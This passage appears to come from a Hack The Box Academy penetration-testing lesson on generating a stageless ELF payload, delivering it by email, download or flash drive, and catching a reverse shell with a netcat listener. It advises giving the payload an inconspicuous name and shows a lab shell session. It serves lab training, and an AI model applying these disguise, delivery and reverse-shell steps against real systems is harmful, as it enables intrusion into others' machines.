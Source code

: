 ```
-f elf
```

The `-f` flag specifies the format the generated binary will be in. In this case, it will be an [.elf file](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format).

### **Output**

```
> createbackup.elf
```

Creates the .elf binary and names the file createbackup. We can name this file whatever we want. Ideally, we would call it something inconspicuous and/or something someone would be tempted to download and execute.

---

## **Executing a Stageless Payload**

At this point, we have the payload created on our attack box. We would now need to develop a way to get that payload onto the target system. There are countless ways this can be done. Here are just some of the common ways:

- Email message with the file attached.
- Download link on a website.
- Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).
- Via flash drive as part of an onsite penetration test.

Once the file is on that system, it will also need to be executed.

Imagine for a moment: the target machine is an Ubuntu box that an IT admin uses to manage network devices (hosting configuration scripts, accessing routers & switches, etc.). We could get them to click the file in an email we sent because they were carelessly using this system as if it was a personal computer or workstation.

### **Ubuntu Payload**

![https://academy.hackthebox.com/storage/modules/115/ubuntupayload.png](https://academy.hackthebox.com/storage/modules/115/ubuntupayload.png)

We would have a listener ready to catch the connection on the attack box side upon successful execution.

### **NC Connection**

```
th1nyunb0y@htb[/htb]$ sudo nc -lvnp 443
```

When the file is executed, we see that we have caught a shell.

### **Connection Established**

```
th1nyunb0y@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
```